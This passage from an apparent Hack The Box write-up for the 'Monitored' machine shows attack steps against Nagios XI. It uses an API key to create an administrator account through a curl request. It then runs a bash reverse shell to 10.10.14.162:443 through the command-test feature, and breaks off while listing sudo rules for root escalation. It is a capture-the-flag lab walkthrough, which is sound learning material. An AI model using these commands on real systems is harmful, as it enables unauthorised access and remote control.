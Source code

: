 ![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407155541.png)

- Finally, we created the user `xpnt` with **administrator privileges**.

```bash
curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=xpnt&password=xpnt&name=xpnt&email=xpnt@monitored.htb&auth_level=admin" -k
```

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407203218.png)

- Searching for a way to execute commands within Nagios XI, we found the following [blog](https://nagiosenterprises.my.site.com/support/s/article/Using-the-Core-Config-Manager-for-Service-Management-fc9aa4e4). In this blog, it is explained that in the creation of **Services**, we can test a command previously created in the **Commands** section.

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507100213.png)

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507110304.png)

```bash
bash -c 'bash -i>&/dev/tcp/10.10.14.162/443 0>&1'
```

>Comments:
> It is worth noting that `double quotes` in the paylaod are not correctly interpreted
{: .prompt-info }
![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407210414.png)

- With that, we obtained a `reverse shell` and were able to read _user.txt_.

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240407210550.png)

## Root

- When running `sudo -l`, we noticed that we can execute several commands with `sudo` without providing a password.

```bash
nagios@monitored:/home/svc$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
```